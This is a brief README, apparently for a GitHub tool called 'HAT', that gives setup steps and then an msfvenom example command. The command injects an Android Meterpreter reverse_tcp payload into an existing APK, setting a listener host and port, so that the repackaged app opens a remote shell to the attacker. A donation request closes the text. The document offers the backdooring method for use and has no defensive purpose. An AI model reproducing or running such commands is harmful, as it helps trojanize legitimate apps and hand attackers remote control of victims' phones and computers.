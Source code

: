 HAT PROJECT

*Clone - git clone https://github.com/BLACKRATTX/HAT-Metasploit-Reverse-Engineer-Tools

*Directory - cd /root/HAT-Metasploit-Reverse-Engineer-Tools

*Give permissions - chmod +x HAT.sh

*Execute - sh HAT.sh

*Generate the payloads with msfvenom -x command using existing android/windows applications.

*Example-  msfvenom -x /sdcard/test.apk -p android/meterpreter/reverse_tcp LHOST=168.9.0.1 LPORT=4444 -o /sdcard/payload.apk


"IF YOU LIKE MY HARD WORK, GIMME A CUP OF COFFEE"

DONATE ME: https://www.paypal.me/blackratt505
